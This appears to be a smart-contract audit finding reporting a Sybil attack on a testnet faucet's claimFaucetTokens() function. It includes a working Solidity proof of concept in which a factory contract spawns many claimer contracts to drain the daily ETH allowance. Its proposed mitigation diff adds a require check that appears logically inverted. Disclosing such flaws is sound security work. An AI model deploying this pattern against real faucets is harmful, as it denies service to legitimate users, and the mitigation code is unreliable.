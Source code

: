 # Sybil DDoS Attack `claimFaucetTokens()`

## Summary

The `claimFaucetTokens()` function is vulnerable to Sybil DDoS attacks where attackers can deploy multiple contracts to overwhelm daily limits and profitably drain the faucet's ETH reserves, denying service to legitimate claimers.

## Description

### Normal Behavior

- Daily claim limit restricts number of claims per day via `dailyClaimCount`
- Daily ETH cap limits total ETH distributed per day via `dailySepEthCap`
- First-time claimers receive 0.005 ETH

### Issue

The contract is vulnerable to a **Sybil DDoS attack** where attackers deploy multiple contracts to overwhelm the faucet system:

Line: 179 - 181, 194

```solidity
function claimFaucetTokens() public {
    // ...
    if (dailyClaimCount >= dailyClaimLimit) {
        revert RaiseBoxFaucet_DailyClaimLimitReached();
    }
    //...
    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
        // ...
        if (
            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
            address(this).balance >= sepEthAmountToDrip
        ) {
            hasClaimedEth[faucetClaimer] = true;
            dailyDrips += sepEthAmountToDrip;

            (bool success, ) = faucetClaimer.call{value: sepEthAmountToDrip}("");
            // ...
        }
    }
    //...
    dailyClaimCount++;
}
```

The vulnerability exists because:

- The faucet can only verify addresses, not human identities
- Deployment cost is less than claim reward

## Risk

### Impact

**High**

- Concentration of ETH resources to single attacker instead of diverse user base
- Legitimate users cannot access faucet ETH when daily caps are exhausted
- Faucet loses ETH and token reserves faster than intended
- Attackers can use private transactions or submarine transactions, making it nearly impossible for the system to track and respond to attacks

### Likelihood

**High**

- Requires only basic contract deployment
- Attackers always earn significant profit
- The attack can be executed as soon as daily limits reset

## Proof of Concept

### Textual PoC

1. Attacker deploys multiple simple contracts to create fake user identities
2. Each contract calls `claimFaucetTokens()` as a first-time claimer and transfers all ETH and tokens to the attacker's address
3. The attack repeats daily via script → system becomes unavailable most of the time

### Coded PoC

```solidity
contract AttackerFactory {
    constructor(RaiseBoxFaucet faucet_) {
        faucet_.claimFaucetTokens();
        while (true) {
            if (
                address(faucet_).balance <= faucet_.sepEthAmountToDrip() ||
                faucet_.dailyClaimCount() >= faucet_.dailyClaimLimit()
            ) {
                break;
            }
            SybilAttacker newAttacker = new SybilAttacker();
            newAttacker.claim(faucet_);
        }
    }
}

contract SybilAttacker {
    function claim(RaiseBoxFaucet faucet_) external {
        faucet_.claimFaucetTokens();
    }

    receive() external payable {}
}

function testSybilDDoSAttack() public {
    vm.startPrank(user1);
    new AttackerFactory(raiseBoxFaucet);
    vm.stopPrank();

    vm.expectRevert();
    vm.startPrank(user2);
    raiseBoxFaucet.claimFaucetTokens();
    vm.stopPrank();
}
```

**SybilDDoSAttack.t.sol**: https://github.com/Luu-Duc-Toan/2025-10-raisebox-faucet/blob/master/test/SybilDDoSAttack.t.sol

## Recommended Mitigation

Combine with off-chain DDoS mitigation services (e.g., Cloudflare, AWS Shield) to verify claimers as human before on-chain execution:

```diff
function claimFaucetTokens() public {
+   require(hasClaimedEth[faucetClaimer], "Unverified claimer")
    //...
-    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
-        uint256 currentDay = block.timestamp / 24 hours;
-
-        if (currentDay > lastDripDay) {
-            lastDripDay = currentDay;
-            dailyDrips = 0;
-            // dailyClaimCount = 0;
-        }
-
-        if (
-            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
-            address(this).balance >= sepEthAmountToDrip
-        ) {
-            hasClaimedEth[faucetClaimer] = true;
-            dailyDrips += sepEthAmountToDrip;
-
-            (bool success, ) = faucetClaimer.call{
-                value: sepEthAmountToDrip
-            }("");
-
-            if (success) {
-                emit SepEthDripped(faucetClaimer, sepEthAmountToDrip);
-            } else {
-                revert RaiseBoxFaucet_EthTransferFailed();
-            }
-        } else {
-            emit SepEthDripSkipped(
-                faucetClaimer,
-                address(this).balance < sepEthAmountToDrip
-                    ? "Faucet out of ETH"
-                    : "Daily ETH cap reached"
-            );
-        }
-    } else {
-        dailyDrips = 0;
-    }
    //...
}

+ function claimFaucetTokens(address faucetClaimer) public onlyOwner {
+    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
+        uint256 currentDay = block.timestamp / 24 hours;
+
+        if (currentDay > lastDripDay) {
+            lastDripDay = currentDay;
+            dailyDrips = 0;
+            // dailyClaimCount = 0;
+        }
+
+        if (
+            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
+            address(this).balance >= sepEthAmountToDrip
+        ) {
+            hasClaimedEth[faucetClaimer] = true;
+            dailyDrips += sepEthAmountToDrip;
+
+            (bool success, ) = faucetClaimer.call{
+                value: sepEthAmountToDrip
+            }("");
+
+            if (success) {
+                emit SepEthDripped(faucetClaimer, sepEthAmountToDrip);
+            } else {
+                revert RaiseBoxFaucet_EthTransferFailed();
+            }
+        } else {
+            emit SepEthDripSkipped(
+                faucetClaimer,
+                address(this).balance < sepEthAmountToDrip
+                    ? "Faucet out of ETH"
+                    : "Daily ETH cap reached"
+            );
+        }
+    } else {
+        dailyDrips = 0;
+    }
+}
```
